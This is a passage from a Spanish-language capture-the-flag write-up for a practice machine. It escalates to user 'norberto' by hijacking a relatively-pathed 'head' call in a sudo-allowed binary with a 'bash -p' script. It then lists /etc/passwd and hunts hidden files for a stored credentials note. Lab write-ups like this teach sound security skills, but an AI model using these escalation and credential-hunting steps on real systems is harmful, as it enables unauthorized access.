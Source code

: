 Ahora tendra este contenido:
```bash
bash -p
```

Le damos permsios de ejecucion:
```bash
chmod +x head
```

y ahora procedemos a ejecutar de nuevo el binario:
```bash
sudo -u norberto /usr/bin/baner
```

Ahora tendremos una sesion como este usuario
```bash
# Comando para escalar al usuario: ( norberto )
Ejecutando 'head' con ruta absoluta:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

Ejecutando 'head' con ruta relativa:
norberto@7d69a5078740:/tmp$
```
###### Usuario `[ Norberto ]`:
Listando los demas usuarios del sistema tenemos uno mas:
```bash
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
maria:x:1002:1002:,,,:/home/maria:/bin/bash
```

Ahora buscamos por archivos ocultos para este usuario y tenemos lo siguient:
```bash
find / -type f -user norberto -iname ".*" 2>/dev/null
```

Temos un archivo:
```bash
/home/norberto/.-/.miscredenciales
```

Si revisamos su contenido observamos lo siguiente:
```bash
cat .miscredenciales

Hasta aqui no sirvio mi password

⠏⠗⠁⠉⠞⠊⠉⠁⠉⠗⠑⠁⠝⠙⠕⠗⠑⠞⠕⠎

Debes tenerlo a mano te sera util
Usa mis pass para escalar
feliz hack de firstatack
```
